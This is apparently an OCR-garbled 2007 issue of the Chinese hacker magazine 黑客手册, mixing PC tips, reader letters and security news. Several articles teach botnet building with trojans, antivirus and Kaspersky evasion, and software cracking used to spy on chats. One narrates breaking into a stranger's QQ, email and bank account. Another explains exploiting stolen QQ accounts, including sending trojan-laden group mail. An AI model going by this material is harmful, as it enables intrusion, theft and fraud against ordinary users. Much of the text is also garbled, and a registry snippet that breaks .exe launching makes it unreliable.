不过对于 Windows 本身也是一样的，这种是无法直接在系统内创建回收。只要系统的文件一直在一个固定的位置，那就是用“cmd”进行命令，在系统中点击“开始”-“运行”，输入“cmd”，打开即可。

**Q：我想提取一些视频文件的图像，不管是用 QQ 的截图还是使用系统的 Print Screen 都是黑黑的，如何解决？**
**A：** 我们知道图片截屏的效果，主要是对一些方法比较粗糙，一旦是用软件抓取，就会在某种情况下把当前屏幕上的画面给截下来。如果是用“暴风影音”播放视频文件，在菜单面板上就有功能，具体操作如下：
1. 打开“文件”，然后选择“保存图像”。
2. 使用“HyperSnap”（下载地址：http://www.crsky.com/soft/492.html），打开软件，找到菜单“捕捉”，再选择“启用视频捕捉”，这时的捕捉功能会进一步增强，然后直接从视频中截取需要的内容，结束后按键盘的“Scroll Lock”即可。

**Q：最近不知道怎么搞的，在图片上单击右键没有了“设置为桌面背景”那一项了，如何恢复？**
**A：** 这里有两种方式来恢复，具体如下：
1. 点击“开始”-“运行”，在里面输入“regsvr32 shimgvw.dll”，单击“确定”执行命令，这时就会弹出提示框：“shimgvw.dll 中的 DllRegisterServer 成功”，右键菜单里的“设置为桌面背景”就会恢复。
2. 另一种方法是将背景设置为手动模式，进入“C:\WINDOWS\Web\Wallpaper”目录，然后在桌面上点击右键，选择“属性”，找到你喜欢的图片设置成壁纸即可。

**Q：我总是收到这样的 QQ 消息，打电话过去问朋友却根本没有点过，是骗局吗？那怎么处理？**
**A：** 这其实是一种新的 QQ 病毒/木马传播方式，假借朋友的名义给你发一个链接，或者是让你下载某个程序，或者是引导你去虚假的网站，这就更需要注意了。建议在接到这类消息之后，不要直接点击链接、不要相信陌生人的诱导，最好直接在 QQ 里选择“举报消息”。

**Q：最近在学习注册表，总觉得打开注册表的方法很麻烦。有没有简单的方法啊？**
**A：** 在 Windows 2000 及以上版本中，打开注册表的方法已经非常简单，可以通过以下方式打开：
1. 按“开始”-“运行”，输入“regedit”即可打开注册表编辑器；
2. 如果要定位到某个键值位置，可以直接在地址栏里输入路径，如：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion`。

## 29号信箱

感谢近几期大家对《黑客与防范》的支持，技术就是要从黑客身上找趣味！

- **城市** / 山西大同
- **论坛ID** / zib_hk
- **邮件** / zib_hk@yahoo.com.cn

**建议和意见：** 对于“黑客”这个名词而言，许多人都不知道其中的含义和它的精神，及其所要做的事情，以及它在网络上的地位和作用。但我不再是个麻瓜，懂得了黑客的真谛和它的精神。

无论企业界还是专业黑客，他们都支持着整个网络，使它稳定运行！因为不免有些破坏者来捣乱，才有了维护网络安全的必要，老黑们和小黑们并不是外界想象的那样。

世界上最崇高的职业非黑客莫属！用他们的精神，他们的时间来献给世界上最先进的现代网络，写出程序与其他人共享，他们也间接帮助大部分人，虽然常被忽略与否定，甚至受制于法律。

在迈入黑客世界之前，我同样是一个麻瓜，在误解着他们。但是现在，我认真思考并醒悟，至少现在我有一个梦想，早日成为高尚黑客中的一员，成为你们中的一员，那是我的荣幸，即使我现在只是起步！

- **城市** / 河北保定
- **论坛ID** / qianyo
- **邮件** / yueding962253@sina.com

**建议和意见：** 我也想有一个“岁月联盟”那样的团队，毕竟一个人学习总不如大家真诚地交流来得直接，相信许多人也有这样的想法。但是，我目前掌握的资源和团队还不够，建议《黑手》能不断个性化，比如给出一个互助栏目，把志同道合的人聚在一起，我想效果还是可观的。

- **城市** / 江苏扬州
- **论坛ID** / lgr
- **邮件** / 130130.student@sina.com

**建议和意见：** hacker之路是漫长的，自从2005年11月刊起，《手册》带我走进了黑客神秘的殿堂，从一位小白逐渐成长。虽然有些内容对我来说还有难度，能看懂的部分越来越少，但我依然很兴奋，因为是你《手册》，是你们——作者和小编，带我进入这条神秘的“黑客与防范”之路，你们辛苦了！新年快乐！

- **城市** / 烟台
- **论坛ID** / 无
- **邮件** / dvierry@163.com

**建议和意见：** 这是我第一次购买你们的杂志，当我走进书店偶然间拿起本书的时候，我就再也放不下了，爱不释手！你们的内容很丰富，很实用，我很喜欢。于是，我决定支持你们，以后每期都买。建议在光盘中多提供一些视频教程，多出些系统性的专题，专业点的，就像《缓冲区溢出教程》、《精通破解工具》之类，出点原理性的文章和编程方面的书籍！作为你们杂志的读者来讲，很有帮助……

（再说一下关于“思维”：我以前读过很多大牛、新东方老师的文章，他们提到的这种思维正是我缺少的……）

- **城市** / 广西河池
- **论坛ID** / 匿名
- **邮件** / 无

**建议和意见：** 本刊是我接触的第一本黑客杂志，感觉特别激动。虽然以前在学校图书馆看到过好些黑客安全类的书刊，对黑客安全之类有一点点了解。但我对追求黑客技术非常向往，通过QQ和网络到处搜寻，在学习技术方面，对黑客工具的理论、实践、各种加密和系统密码有了深入了解，且更重视对网络的安全理念与环境。

我觉得可以做一个“黑客常识”的栏目，普及网络安全防范的知识，弘扬不搞破坏的黑客精神，这是一种对规则的挑战，也是一种理想，更能体现你们的办刊特色和宗旨。

## 黑客手册 双月专刊 2007.04

### 安全检测
- 拉响国内顶级名牌大学的网络警报
- “黑”掉美的的黑客大牛？
- 方帅：DEFCON 黑客的日益大众化

### 漏洞分析
- Phpwind 5.0 最新 SQL 注入 0day 详解
- 入侵？进了谁的心
- 腾讯 QQ 最新漏洞
- WIN2003 的战斗带来动荡
- 留言泄出 shell 来
- MSMAX - blog 的致命伤
- ……

### 光盘内容
- 随刊附赠海量安全工具及视频教程

## 写在前面：正视 Hack
### 担负起技术人员应有的责任

其实，我是把《黑客手册》4月刊的卷首语当作一篇文章来写的，所以可能会显得冗长，但是我真心希望所有热爱技术的人都能耐心看完，希望我的文字能让大家真正地正视 Hack，让大家找到自己心中真正的那种 hacker 精神。

在此之前，如果你坐在计算机前，访问一下 http://oreilly.com，然后在上面的搜索框中以 hacks 为关键词搜索一下，浏览一下搜索结果，有些书名可能会让你感到奇怪，比如《Firefox hacks》、《Flash hacks》、《eBay hacks》、《Google hacks》等等……如果你对 hack 一词的含义仅停留在破坏，是无法解释清楚的。那么，我再解释一下它到底是什么意思。

hack 这个词并非指单词在嘴巴里打转，组合到一块。由于大家对 hack 一词的理解各有所不同，论坛里也经常讨论 hack 到底是什么。有人说，黑客本意是指长期研究电脑等各种系统的人，后来指入侵别人机器进行攻击的人，其实仅仅如此吗？那么《eBay hacks》是什么意思呢？

hack 一词本意为“劈、砍”等，慢慢地，hack 也被引申为“精通”之意，意指在某方面技术极高的人员。而与此同时，hacker 一词自然也就出现了，也就是指精通技术、追求技术巅峰的人。

至此，你应该清楚为什么 O'Reilly 的书中有如此之多的 hack 这个词。也许有人会认为我是在浪费时间和纸张，认为 hack 应该由它自己去随意命名和理解。但 hack 和圣诞节、情人节一样，是一个来自西方的词汇。我们可以用任何的方式去庆祝圣诞，用任何一种浪漫来陪你的情人度过 2 月 14 日，但是有些本质的东西是始终没有改变的。既然如此，为什么 hack 不能被人们以相同的方式定义呢？如果我们不能接受 hack 一词的本意，那么我们又何必去为其“加冕”呢？！

大环境可以说是恶劣，面对很多不负责任的所谓“声讨”，hacker 一词已经被公众认为是“可耻的网络流氓”的代名词。而身为技术人员的我们，要做的不是辩论，这样只会让 hacker 这个词真的被慢慢抹黑。要想让别人正视 hacker，就要先从自己开始，让自己能够正视 hacker，正视自己。我只希望更多人能够认识到——原来 hacker 是这样的。

最后，还是那句话，hacker 代表的是一种精神，而并非某一种实体。所以要做的还有很多，而且要坚持最根本的东西。希望所有喜爱 hacker 的人能把坚持 hacker 精神当作自己的一种信念，一种不被人左右的信念，一种在任何恶劣条件下都可以用行动捍卫的信念！

## 新闻短评快

4月虽然说是春暖花开的日子，但小编发现还是有许多让人惊心动魄的消息！首先是针对 QQ 的联名安全软件，接着就是两场大战：腾讯挑战技术底线，让金山一战成名；其次，新闻奇案频发，整体来看，事情很不简单！

### 腾讯科技诉陈永森侵权案胜诉
腾讯科技（深圳）有限公司以著作权侵权及不正当竞争为由，把腾讯QQ2006去广告版作者陈永森告上法庭，并且赢得诉讼。北京市海淀区人民法院判决被告陈永森赔偿腾讯科技有限公司经济损失十五万元。

原告诉称，腾讯QQ2006 Beta2 是原告在原腾讯QQ 基础上进行研发后推出的计算机软件作品，原告依法对QQ享有计算机软件著作权。被告通过其“腾讯工具工作室”网站向网民提供名为“腾讯QQ2006 强制拉风”的软件下载，通过修改、宣传等方式将该软件实际对腾讯QQ2006进行复制和非法改版。另外，被告还在其网站上复制原告发布在腾讯网的QQ下载服务，构成侵权。

### 金山毒霸 VS 灰鸽子 三大中国杀软不同应对
3月，金山毒霸官方网站遭到 DDoS 大规模攻击。由此，金山软件展开了一场“全民围剿恶性木马”的行动，此举彻底刷新了安全厂商与木马制作团体的斗争策略。针对灰鸽子木马，金山毒霸已经通过正常应对及正面回击，开启黑杀功能进行查杀。

来自国家计算机病毒应急处理中心以及瑞星、江民的消息：这三家都不约而同地发出了“灰鸽子并没有大规模爆发”的信号——“用户无须恐惧，”相关的杀毒软件也可将其清除。

截稿之前收到“灰鸽子工作室”网站消息，网上面发现一个其发布的卸载程序下载链接。声明宣称停业并停止更新和注册，并对“恶意破坏和篡改”旗下软件的“不法行为”表示谴责。

### 熊猫烧香作者被判重刑？
在06、07年相交之际，一只熊猫“烧”红了互联网！据公安部以及湖北省公安厅的消息，熊猫烧香病毒作者李俊已经对其制作发布病毒的事实供认不讳。鉴于这是一场计算机病毒大案，造成了成千上万个人及企业用户中毒，直接及间接经济损失高达上亿元，对于作者的量刑也在研究中！

**小编注：** 编写病毒并非技术实力的唯一体现，传输病毒更非正途，大家应从中汲取教训。

### 1 元 CN 域名体验，你参加了没有？
2007年3月7日至3月31日之间，CNNIC 发起 CN 域名1元体验活动，众多网民可以以1元人民币价格注册 CN 域名。注册 CN 域名首年仅需1元钱，而后的续费按常规资费标准进行。

通过这次体验活动，吸引了更多的用户体验域名注册服务，对于整个域名行业来说，用户基数大大提高，业务量也随之攀升。

## 微软公告牌

### 微软正式发布 Windows Server 2003 SP2
最近，微软已为其服务器操作系统 Windows Server 2003 发布了一个重要的升级包 Windows Server 2003 SP2，目的是为了让这款产品能够更加安全和稳定地运行。SP2 除了适用于 Windows Server 2003 的所有版本之外，还适用于 X64 版 Windows XP Professional。

- **Scalable Networking Pack** —— 用于提高数据网络的联网任务的速度。
- **Windows Deployment Services** —— 利用它，管理员可以通过网络远程配置和控制 Windows 系统。
- **Wi-Fi Protected Access 2** —— 可以帮助用户更轻松、更安全地接入无线网络。
- **Microsoft Management Console 3.0** —— 微软管理工具的最新版本。

### 苹果发布巨无霸安全补丁 一口气修正 45 个缺陷
据悉，苹果公司发布了一款 Mac OS X 安全升级包，修正了 45 个安全缺陷，其中包括数个零日缺陷。这次的“巨无霸”式升级包是3个月来苹果发布的第七款升级，修正了苹果软件及 Adobe Flash Player、OpenSSH、MySQL 等第三方软件中的安全缺陷。

尽管苹果的补丁软件修正的数个缺陷是此前已公开的，但用户在更新时仍然应该注意。目前并没有利用这些缺陷的攻击出现。

紧接着苹果还发布了第二款升级包，修正 iPhoto 中一个可能导致用户受到攻击的缺陷。黑客可以制作一个恶意的 Photocast 文件，当被打开时，Mac 就会被感染。

### IE7 漏洞可导致用户掉入网络诈骗陷阱
2007年3月中旬，安全研究员报告 IE 浏览器存在一个漏洞，可能让用户掉入网络诈骗陷阱。该漏洞存在于 IE7 处理本地 HTML 出错信息页面的方式上。通常情况下，当用户无法登录网页时，这些出错信息就会出现。

出错信息包括“与该网页的连接已被中断”，同时提供一个“刷新页面”的机会。如果点击了刷新链接，IE 可能会受到欺骗，显示一个伪造的网页框架。攻击者可以构造代码欺骗 URL 显示，该缺陷影响 Vista 和 XP 上运行的 IE 7。

## 抓鸡宝典

**前言：** 很无奈的事情，不喜欢学英语但现在干什么都要英语。C 和 Java 虽不相通，但并不影响它们之间的数据交换。还是喜欢那句歌词：“我们的文化要自己来说明，自己的舞台将由我们自己去开启”。

**通过本文您可以学习：**
1. 提肉鸡的一般方法
2. 通过程序变种绕过卡巴斯基主动防御

### 一、后门的选择
国内好多人喜欢用灰鸽子，名字好听，最大优点就是稳定性非常好，使用简单。但是正版是要花钱的，大家如果不知道请去搜索引擎搜索。除了灰鸽子，黑锋（Heifeng）也是国内非常强大的木马。除了具备灰鸽子所有的功能外，还有 DDoS 功能，支持自动或手工绕过主动防御，自定义插入远程线程。实在是抓鸡的不二工具！

还有一款 Evolution，它生成的服务端最重要的是避开瑞星的主动防御。它的 CPU 占用在 50% 左右（灰鸽子在 85% 左右）。

### 二、木马的免杀
关于免杀，最简单就是加壳，这是 99% 的人用的方法。其次就是一些比较高级的方法。NOD32 的查杀敏感性好，所以我们想要避开它的监控，可以利用一些修改方式，比如用 MaskPE。其次我们把它做成静默安装，只要几个简单的压缩壳即可。

其他杀软也差不多，重点就是不要让文件样本被轻易识别。可以用一些加花工具和高级加壳器。

### 三、抓鸡的方法
学会了上面说的，我们就可以去抓鸡了。抓鸡的方法很多，如：挂马、P2P 共享、系统漏洞利用等。目前最高效的应该是挂马。

### 四、穿透卡巴斯基主动防御
说到这里，无数“英雄”纷纷叫苦！卡巴斯基自带了类似 SSM（System Safety Monitor）的功能，但只要掌握了方法，也不是太难。现在卡巴结合了主动防御，对于新手确实比较棘手。我自己动手写了个程序，通过模拟按键或逆向思维来绕过主动防御，其实是一个无形杀戮链。点一下生成就能在当前目录生成一个启动器，运行后自动截获参数，运行时卡巴弹出的提示窗口会被隐藏或自动点击。

**编者点评：** 本文看似是在讲技术，其实反映了安全攻防的日常。作者所讲的思路对新手的防护和防御思路很有启发。

## 菜鸟玩转 WMI 之 WMIC（下）

**通过本文您可以学习：**
1. 通过 fsdir 管理目录
2. 通过 datafile 来管理文件

这是 WMI 系列教程中的最后一篇了。不知道以前讲的内容大家掌握了没有？这次主要讲的是与目录和文件管理有关的别名。WMIC 还有很多有用的别名，比如：
- `netlogin`：查看登录的用户。
- `ENVIRONMENT where name="TMP" set VariableValue="c:\temp"`：更改环境变量。

大家可以根据这些例子自己查阅相关资料深入研究。

## 黑客手册 2007.04 NOHACK

好了，请出今天的主角，**“FSDIR”**，从名字就可以看出，这个别名是用来管理文件系统目录结构的。在你的WMI命令行下输入命令 `"fsdir where name='c:\windows' list full"`，会看到什么结果呢？如图1所示。

从图中可以看到，常用属性有：Drive、EightDotThreeFileName、FileName、FileSize、FileType、FSName、Hidden、InstallDate、Name、Path、Writeable 等。

这里介绍常用属性：Drive 表示目录所在的驱动器；EightDotThreeFileName 表示 DOS 下的文件名；FileName 表示文件名；FileSize 表示文件大小；FileType 表示文件类型；FSName 表示文件系统格式；Hidden 表示是否隐藏；InstallDate 表示日期，没有分隔符；Name 为整个路径名；Path 为文件夹所在路径；Writeable 表示是否可写。

好了，今天的主角，伴奏的路径，所以我们只能用 **“FileName”** 属性了，因为它需要的仅仅是一个文件夹的名字。例如要看看系统中有没有叫做 “rain” 的文件夹，可以用命令 `fsdir where filename='rain' get filename,drive,path,hidden,system,writable`。图2就是在我的电脑上执行的结果，可以看到我的电脑里有 4 个叫 rain 的文件夹，并且都可以在WMI环境中查询到。

不过我们得到的数值都是路径，如何用 wmic 来搜索文件夹或查找文件，仍然需要“FileName”属性；如果想找任意文件夹，可以通过 drive 和 path 来找到。wmic 还有很多其他功能，例如可以用 `copy` 方法拷贝文件、用 `rename` 方法重命名、用 `delete` 方法删除，以及用 `DataFile` 类来操作文件等。

我们可以看到，wmic 把关于 windows 目录的信息都列出来了。可以利用这个属性来判断文件夹的属性信息。还有一个有用的功能就是查找文件夹，由于我们不知道文件夹的路径，所以我们只能用 “FileName” 属性了。

## NO HACK 2007 04 黑客手册

explorer.exe" call copy "d:\\explorer.exe", 它的执行结果如图7所示。当然如果我要删除这个文件，只要命令 "DATAFILE WHERE NAME=\"d:\\explorer.exe\" delete"。如果你要删除的文件正在使用，则系统会提示访问拒绝。

用命令 "datafile where filename=\"explorer\""，如图8，即可，结果还远远不够。你也可以用命令 "datafile where hidden=true" 列出系统中所有的隐藏文件，这个命令运行后需要几分钟的时间。笔者第一次就遇到一个变态病毒，对系统进行 hook，发现我正向病毒所在目录就自动移动到其他文件夹，最后就是用 wmic 搞定的。"Datafile" 的主要内容结束了，至此，wmic 部分也介绍到这里了，其实在使用 wmic 的时候，你随时可以键入 "?" 获取一定的帮助（虽然个人觉得 wmic 的帮助比想象要难，还要到网上找相关资料呢）。是不是觉得很难？我们要知难而上哦，要不然什么时代能脱胎换骨？wmi 只要你多练习一下，是很容易掌握的。编辑点评：Wmi 系列的文章终于连载完了，5个月的时间，大家对 wmi 了解多少了？在写文章的时候用的是我的系统（装的 a） [字迹模糊]

这个别名不但可以做日常的文件管理，用来查找病毒文件也是很不错的选择，比如查找文件，我们用 filename 属性，不过要注意的是，这里不要加扩展名，例如我们要找 explorer.exe，只要

## 快速得到 QQ 好友列表

罗现理
当我们的电脑上没有安装 QQ 或者有些东西因为没办法登录 QQ 的时候，想得到 QQ 的好友列表也很麻烦。

在这里，就教大家得到好友列表的方法：
首先我们登录 http://my.qq.com/，然后登录自己的 QQ 号（这点不用教了吧），然后将 http://bank.qq.com/cgi-bin/recommend/GetQQFriends.cgi 这项地址输入到地址栏中，轻松一按回车，啊！好友列表就获得到了，如图1。

## 腾讯 QQ 最新漏洞

天涯

从本文你可以学到：
1、社会工程学利用
2、给每一种用户功能设置不同的密码
3、不要将重要及敏感的信息保存到网上

发现这个漏洞完全也是偶然，某信息上被抹掉的事情再发挥一下，一个东西在网络中的时候，得到了管理员的后台密码。于是利用了社会工程学原理就轻松地破解了他的 QQ，得到了 QQ 密码。虽然只是 8 位数字的号码，但是等级已经到了 39 级，而且还是会员。在他的个人资料里还写上了一个 sina 的 vip 组成员。把着卷毛的心狐狸 yy 的密码去登录邮箱，结果让我大跌眼镜，竟然密码也是一样的。然后成功登录邮箱，但是并没有在邮箱里发现什么有用的东西，只是知道了他用来保存的一个手机号。通过这些资料我突然想到了 QQ 的网络硬盘，既然是会员，有 128MB 的硬盘绝对不会不够用吧！

遗憾的是，QQ 网络硬盘设置了密码，又试着用 qq 的密码，结果果不其然。这时候我真的没辙了。于是想利用我四年的劳动来换QQ网络硬盘的资料。如图1。看来回档问题的答案也一定是BT——没戏了！在我想放弃的时候突然电话响了，还以为是那个MM发短信过来了……打开一看，原来是网络收件箱收到了一条仓储广告（现在80%的SP都会发送这样的广告），本人是常用手机上网的，对这样的平常事早已习以为常了。但偏偏也正是这条仓库广告给了我新的一个思路。

大家乐都知道http://wap.qq.com这个网址吧，这里也可以登录QQ哟（广大网民吧，几百年前就知道了，可……呵呵……不过你们是只知道“听不见第三声”！到家如果你是QQ的网络硬盘或QQ资料，都让其他人给盗光了，这个广告说不定可以成为你的救命草，赶快冲进去让你看见这个……

登录QQ的时候发出了上一次登录QQ的记录，因为会员号是有这个功能的，看来他还是挺细心的。本来事情到这里就结束了，虽然我发现他所有的FTP密码都没有改过，但是我赶巧不喜欢粘虫之类的，所以基本不用看那些东西这样一个“T”硬盘”的标签，在用手抓上网的时候我先就打开了上次登录QQ的号码，虽然登录不了他们的QQ，显示的是身份校主，但是有一个“硬盘”的标签，我试着点击它，很抱歉，这次需要输入密码才能打开QQ的网络硬盘。

后来腾讯技术人员的反应还真是快啊！于是手速是输入了FTP的密码，结果竟如我所愿的那样进去了一次发现里面多了一个“bank.txt”的文件，连里趁手机里，这里看样只是银行密码的卡号，密码，因为密码是12位数字的，可能是网络银行的密码。于是打开工行网页，http://www.icbc.com.cn/，安装好个人网上银行控件登录进去。

首先查看了一下他的账户余额，里面还有2000多块钱。本着“黑客”的精神，我没有动里面的一分钱，这里我就不截图了，有兴趣的朋友看看我当时做的录象吧！

> 后记：总说这次的人傻，来取是需于站长的粗心，其实这是因为腾讯本身的漏洞，如果在我第一次利用手机登录QQ网络硬盘的时候，腾讯就已经做了限制，我再可能发它里面的重要文件。但是腾讯公司在一个千呼万唤中重新推出了反应，由此它可，他们还是负责任的。（尤其是我并没有通知他，嗯嗯！）

唯一遗憾的是，直到今天，我还依然能连接那个站长QQ，把QQ硬盘整理的一举一动，包括删除、下载。腾讯在这次的处理上并不尽如人意，希望腾讯的技术人员能见到这篇文章的时候尽早作出处理！

编排点评：要复的网站或应是更是本站之边，此在隐型中哪些必要处理之程序中接手？有兴趣请阅读《黑客手册》20xx年之类的文章。为了使这个更加便宜我不动要令访问帐号系统进行了尝试，拨打会员卡签上线，让网友们变得很有，QQ等大家一喜，而有别处还会要求采用，如今你在你的网络中所得到的答案……

## 盗完QQ了，然后呢？

从本文您可以学到：得到qq号码后的利用方法 应该可以这样说吧，凡是能称做是一个“菜鸟”级的黑客，手下起码要有一个装着500封QQ信以上的邮箱（小菜我都有好几十封了）可是，面对这么多的QQ号，你如何下手呢？盗站的QQ群里有这打是利非常又回去你们说给我听吗，究竟如此这次也是有用这个QQ等四、正所谓取之这些说来……

1. 号码
我知道到QQ后，大家第一个想法就是看看他是几位的QQ，多多有些，不是他开的什么小生路吧。有高级的话就是不知道自己管吧？可这难免被人说有少我们发现，我就试过，对了10个7位的靶书，9个都不同的方式实现了，用密码保护、申请、手写等等。（当时这样就常用，当时也是这个思路的），还就可以进行手写还完成身份认证的方式实现了，原本能上QQ，先改的就是这个办法了……

2. QB
QB的细节大都部分被称为QQ花。（高手都会用钩字制定）但显然这类的研究，基本上等于走上个1Q件的，为什么？你想啊，确实每次登录只要Q都非不多，如果按每日消费额度值在1Q以内，起总能偷出大半。唯一比较好利用的，在2Q以下的时候，就会买一块之类装备，或用年费最高等级消费金额在1Q以内，就立即被黑客买次手了。换一句说好利用的，在20以内时，可以去买1QB的QQ号类给大改，或者先选择一块钱便民娱乐的QQ花费时，可以轻松充值到3QB内这样的。其实只是商业的，而且再加一句，看到那些QB只剩零点几的QQ别急着下手，这下还不能什么时候又完了那我们就赚到了。

3. QQ秀
说了半天好像你在可以利用的上，告诉你们，好友们及刚刚开QQ、Q秀秀就是一个比较大的利用空间，有些朋友会说了，有QQ的秀秀是不是别人的不能给我自己，买不起想共享时，甚至有的还没开通，这其实我们可以通过QQ秀给多素狂买，如果先后可以赠送哦。QQ系统之前有一个BUG：剩余期限一个月以内的仍可以赠送。

4. 邮箱
邮箱可能一直被大家忽略，但却是一个极大的可利用空间！首先，可以在对方的QQ群里发带有木马的群邮件，名字可以叫“群内紧急通知”。基本上5个人有3个会上当的。当然，误以为自己的好友发邮件，不过记住一定要装一点的语气，就像在聊天一样，千万不要让别人看着像是自动发的那样，故意不点。好友还没发邮件或者没有收到邮件的，运用好的话，比QQ群邮件更真实，更有效。最后，还可以做备份目录的私人邮箱功能！即使要改动也难以避免！有什么方法可以更换一类的？有的情况下别人注册的邮箱也会中一些其他的木马，觉得自己反而吃亏的运气一番了这! 这样是不是好多好梦QQ啊！我的QQ就是这么残酷滴！

5. QQ 游戏
QQ游戏可利用的主要是QQ幻想。因为点到可以用小游戏刷别人的分，几个游戏中的分数对我们的升级已经没有太大用处（QQ游戏的活号已经停止了），而且其他的游戏发不过网开空间，至多免去人的。当然也不排除日后还有成为热点的游戏。所以幻想应该是一种最好的选择，最好在每个区都建一个人物，选并填写标题，发现…

QQ好友的心理动向：你能利用一些QQ消息。比如QQ秀、QB或者会在QQ上的分号，先知为好友，这样以后说不定就赚到啦！

6. QQ 交友
这个也不需要具体的讲了，上他的号。如果遇到有MM带机赖的，就自己装会恋着老婆的啦，自己就愿意说清嘛，尽量保持一丁点的心态，不要让对方怕失掉，快乐才是我们的宗旨！

7. QQ 空间
之前最后一个提到它，不是因为它没有用，其实完全可以通过在视频里频繁刷时间加网红大气（具体方法网上应该会有），把QQ的空间消息洗清然后怎么宣言到这个空间，这不妨把人不舍上当的吧。不过很多人都是用不对对方自己的是空间的，所以得不到除了防除对象的文章，太具体有点坏坏的，这也是我最后才写的原因。

其实，还有很多是可以利用的，比如QQQ群共享文件，网线翻翻，联系人里的，靶都一条路了。大家可以自行研究。最后总结一句，黑客的技术不是用来做这些破事的，这是只作为休闲而已，我们还应该努力地学些比较高级的技巧，不要局限于此。鉴于此文章是一场极致性探索，希望大家自己掌握分寸，不要沦落成家族。绝非只于这些内容的操事，希望大家仔细问辩，认真

编辑点评：拿到一个qq号，如果你真对它“倾心”的话，还是不妨打呼，多注重社会工程学。好吧，这大题还是无能就知，好要坚守这边面的事情。

## 破解 QQ 聊天记录读取器 5.3

天之印（H.R）

从本文你可以学到：
1. 对话到注册表进行简单的软件破解
2. 在网上发现
3. 一个好友去“QQ聊天记录读取器5.3”！于是我下载它，用来偷偷看内网的聊天记录，再用社工，搞他的密码之类。但是需要注册，如图1，注册只有做完。如果能正确，反之是破解了。根据经验，这种验证方法应该是在注册表里溢出信息完成的。

采用最简单的方法，对比注册表，经过比较发现，在注册表中，HKEY_LOCAL_MACHINE\SOFTWARE\limcount\qqloader 这个键值变成 qqloader50，如图2。所以只要改回原来的就可以了。总之，删除，就可以再用两次。后来我改变注册表，在 qqloader50 这个值上乱改，用十进制把它的数值改成，我写的是真2222222222，发现竟然能够无限次使用，呵呵，请高手指点。

编辑点评：破解一个定某东西很难，用作键侦趣味大行，没事就做事情，往往一个 filemon 和 regmon 就能搞定了，千万别大人伤财哦。

## 浅谈提高网速的误区

pop

从本文你可以学到：
1. 什么是QOS
2. 什么是影响网速的主要因素
3. 真正提高网速的方法

最近又有朋友传给一些自称可以提高网速10倍的软件给我，说是顿固体还来的而且还发布了测试网速的截图，仿佛真的能提高网速，在这里我就会的太多，答案就是——不可能？今天就和大家一起探讨一下，首先我们要——学习网卡和底板的基本知识：
1GB=1024MB，1MB=1024KB，1KB=1024Byte，1byte=8bit
注：bit，位；Byte即B，字节；KB，千字节；MB，兆B，GB，千兆。

# 一、常见提高网速的方法的原理和错误所在

1. 打开组策略，来到计算机配置——管理模板——网络——Qos数据包计划程序，将“限制可保留带宽”的策略启用，并将20%改为0，如图1。

那么Qos数据包到底是不是东西呢？QOS的英文全称为“Quality of Service”，中文名为“服务质量”。QOS是网络的一种

# 简单实现对 OCX 和 DLL 文件的注册与反注册

本页文中你可以学习到：一个方便的注册与反注册 DLL/OCX 文件的方法。

在以前的《黑手书》上说过从目录快速进入 CMD 的小技巧，是通过修改注册表实现的。那么用类似的方法来一次一劳永逸，今天我就大家来带来另一个小技巧，这个方法能让我们更方便地操作 OCX 和 DLL 文件的注册与反注册。

那么应该怎么写呢？我们都知道注册 OCX 和 DLL 文件需要 regsvr32.exe，下面是相关 regsvr32.exe 的参数，如下：

```
用法：regsvr32 [/u] [/s] [/n] [/i[:cmdline]] dllname

/u  解除服务器注册。
/s  无声；不显示消息框。
/i  调用 DllInstall，带或不带一个可选 [cmdline]，跟 /u 一起使用时，卸载 dll。
/n  不调用 DllRegisterServer；这个选项必须跟 /i 一起使用。
```

HKEY_CLASSES_ROOT\exefile\Shell\open\command
@="regsvr32.exe /u %1"

导入保存的 REG 文件后，在 DLL 和 OCX 文件上点击右键菜单就可以出现“注册 DLL/OCX”和“反注册 DLL/OCX”的菜单了。呵呵，简单吧！以后注册好 OCX 和 DLL 文件只需要右键就可以完成了。如果有什么疑问或者想法都可以到 NoHack 的 BBS（http://www.nohack.cn/bbs）或我的 Blog（http://www.yulv.net）上留言。

【文章中涉及的知识点由文章作者】：

编辑点评：通过注册 DLL/OCX 文件可以解决很多系统和应用软件的问题，当你的程序执行不正常的时候，你不妨试试注册相关 DLL/OCX 的文件。作者的这个方法十分有趣，当然在安装某个人的程序、注册某些动态链接库时还是可以试一试的！要不说注册表的知识是很多人都害怕的，它里面可隐藏了很多的奥秘！想进一步研究欢迎联系作者。*附加值

## 免费电话我来打

从本文中你可以学到：
一款简单的免费打电话软件

本文中你可以学习到一款简单的免费打电话软件。最近，以前的班长让我用电话联系一下以前的同学，一起搞聚会，当时没怎么在意就一口答应下来了。可到家找了以前班里的电话本，不看不知道，一看吓一跳！差不多要打 60 多个电话呀！要是一个一个打电话去联系，把我累死也不够啊！为了不至于把我变成话务员，我到 Baidu 上去找了一下关于免费电话的软件，很容易就可以找到许多免费打电话的软件，但是找着了以后，发现大多数都对我没什么用！不是英文就是要手机来获取验证码来开通，十分麻烦，而且我也没手机。终于，在一个论坛上我发现了一个十分适合非手机用户的电话软件，也就是它是一个英国的网站电话软件，但是它是英文版的，而且它的体积也是相当的小哦。原始文件只有 7MB 大，而且我们安装起来后只有 4MB 左右，仍然可以随意地上传到自己的网络硬盘。而且，只需要填写简单的注册资料即可免费打电话了。为了防止一些网站拒绝服务和盗用，建议大家安装官方原版后再使用。下载地址：http://www.vbuzzer.com/index.php，软件名称是：Vbuzzer。现在先为大家介绍一下它的特色和功能，它是一个让大家在线聊天、和朋友打电话聊天、下载免费来使用的软件。在安装的过程中的主要窗口显示的都是英文，但安装步骤是十分简单的，只要一路 Next 就可以了，安装好就可以看到中文的登录窗口，如图 1。


对于我们免费用户来说，注册一个账号可以打 30 分钟国内长途电话和手机。不过大家大可不用担心，它是不限制 IP 注册的，也就是说你可以无限注册无数个帐号！

首先大家可以在登录窗口右下方点击“注册新账号”，在弹出来的窗口填写我们的注册资料。除了“优惠码”可不填写，其余的都填上去，如图 2。


注册成功后就可以登录了，有时登录的过程中可能会比较慢，大家多点耐心就可以了。

登录后，首先点击界面红色图标内的电话图标，如图 4。

接着在下方输入要拨打的对方电话号码，可以是固定电话或者是手机，这里要注意一定要输入固定电话的格式：0086-区号去掉0-电话号码，例如河北邯郸的区号是 0668，朋友的电话是 888055，那么输入电话的正确格式是：008666888055，如图 5。


而拨打手机的格式为：0086+手机号码，例如我的手机号码为 13800000000，那么输入的正确的格式是 00861380000000，输入完成就可以点击右下方蓝色图标的电话按钮给对方打电话了。再来介绍一些电话软件的简单设置和功能吧！

